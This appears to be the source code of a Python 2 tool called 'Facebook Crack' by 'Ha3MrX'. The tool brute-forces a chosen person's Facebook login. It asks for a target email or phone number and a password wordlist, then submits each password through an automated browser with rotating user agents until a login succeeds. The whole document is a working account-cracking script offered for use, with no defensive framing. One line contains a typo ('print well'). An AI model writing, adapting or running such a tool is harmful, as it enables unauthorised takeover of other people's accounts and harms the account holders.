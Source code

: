 
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import sys
import mechanize
import cookielib
import random




email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : "))


passwordlist = str(raw_input("Enter the wordlist name and path : "))


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
	global br
	br = mechanize.Browser()
	cj = cookielib.LWPCookieJar()
	br.set_handle_robots(False)
	br.set_handle_redirect(True)
	br.set_cookiejar(cj)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
	welcome()
	search()
	print("Password does not exist in the wordlist")

	
	
def brute(password):
	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))
	sys.stdout.flush()
	br.addheaders = [('User-agent', random.choice(useragents))]
	site = br.open(login)
	br.select_form(nr = 0)
	br.form['email'] = email
	br.form['pass'] = password
	sub = br.submit()
	log = sub.geturl()
	if log != login and (not 'login_attempt' in log):
			print("\n\n[+] Password Find = {}".format(password))
			raw_input("ANY KEY to Exit....")
			sys.exit(1)

			
def search():
	global password
	passwords = open(passwordlist,"r")
	for password in passwords:
		password = password.replace("\n","")
		brute(password)

		
#welcome 
def welcome():
	wel = """
        +=========================================+
        |..........   Facebook Crack   ...........|
        +-----------------------------------------+
        |            #Author: Ha3MrX              | 
        |	       Version 1.0                |
 	|   https://www.youtube.com/c/HA-MRX      |
        +=========================================+
        |..........  Facebook Cracker  ...........|
        +-----------------------------------------+\n\n
"""
	total = open(passwordlist,"r")
	total = total.readlines()
	print well
	print " [*] Account to crack : {}".format(email)
	print " [*] Loaded :" , len(total), "passwords"
	print " [*] Cracking, please wait ...\n\n"

	
if __name__ == '__main__':
	main()
